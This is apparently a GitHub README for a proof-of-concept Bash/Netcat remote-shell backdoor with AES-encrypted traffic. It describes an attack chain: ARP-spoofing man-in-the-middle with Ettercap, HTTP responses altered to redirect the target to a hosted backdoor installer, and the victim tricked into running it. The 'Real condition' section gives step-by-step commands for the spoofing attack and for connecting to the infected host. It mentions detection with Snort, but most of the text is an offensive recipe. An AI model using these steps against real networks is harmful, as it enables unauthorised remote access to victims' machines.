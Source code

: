 backdoorBash
============

Unix remote-shell backdoor develop with Bash, Netcat, OpenSSL (data encryption with AES-128bit)

## Introduction

This project is associated to another mine : 
- https://github.com/pilebones/etterfilterSamples
- https://github.com/pilebones/hostingBackdoorInstaller

The main goals of this project is to implement an attack scenario as below : 
- Implement backdoor like remote-shell with Bash
- Attack Man In the middle with Ettercap (like ARP Spoofing)
- Hosting a backdoor installer
- Automate data alteration to inject our backdoor inside the computer of target by a browser
- If the target run (naively) the script (ie: the backdoor installer) without reading code source the computer is infected and the attacker can obtain a remote access command
- Detect and prevent this kind of attack with NIDS tool as Snort

Notice :
- The programming language was choose only for a Proof of Concept (POC)
- The socket layer is assumed by a portable version of Netcat. I compiled Netcat for i686 and x86_64 computer architecture a put the binary inside this project.
- The transmited data were encrypted with AES-128 (without using Cryptocat). The data are encrypted on the fly via OpenSSL.

## Requirements

- openssl (tested with v1.0.1j)
- ettercap (>= v0.8.1)
- etterfilter (>= v0.8.1)
- etterfilter (>= v0.8.1)
- netcat (The compiled version is "The GNU Netcat" [not BSD release] v0.7.1)

## How it work ?

The backdoor-client connection work localy and remontly (inside same private network with the same access-point), ie : see "$HOST" inside "config.sh".

### Simple test

```bash
git clone git@github.com:pilebones/backdoorBash.git
cd backdoorBash
cp config.sh.sample config.sh 
vim config.sh
./server.sh
HOST=192.168.0.x ./client.sh
```
.... And try to execute some shell command

### Real condition

```bash
git clone git@github.com:pilebones/backdoorBash.git
git clone git@github.com:pilebones/etterfilterSamples.git
git clone git@github.com:pilebones/hostingBackdoorInstaller.git
cp backdoorBash/config.sh.sample backdoorBash/config.sh
vim backdoorBash/config.sh
# For export remove client.sh *.log config.sh.sample
tar xvzf hostingBackdoorInstaller/export.tar.gz backdoorBash/
# Configure your vhost to hosting hostingBackdoorInstaller's project
cd etterfilterSamples/inject_backdoor_installer/
# Update Redirect URL from "fake-http-redirect.txt"
vim fake-http-redirect.txt
IFACE=wlanX IP_AP=192.168.0.1 IP_TARGET=192.168.0.x ./run
# From target try to download a shell script like "test.sh" or try with 404 Not Found page (same behavior => inject backdoor installer)
# From target : "chmod +x bd_installer.sh && ./bd_installer.sh"
HOST=192.168.0.x ./client.sh
```

## Limitations

This backdoor is writing in bash programming language => It work only on Unix OS.

Currently, tested only on :
- Archlinux
- Debian 7 
- Ubuntu 14.10

Warning : 
Some recent Routeur or Box or AP prevent this kind of MiTM attack. In this case, Ettercap could relay only one-way network-packets (From target to AP but not from AP to target). So Ettercap can alter the HTTP response to redirect to the backdoor's installer.
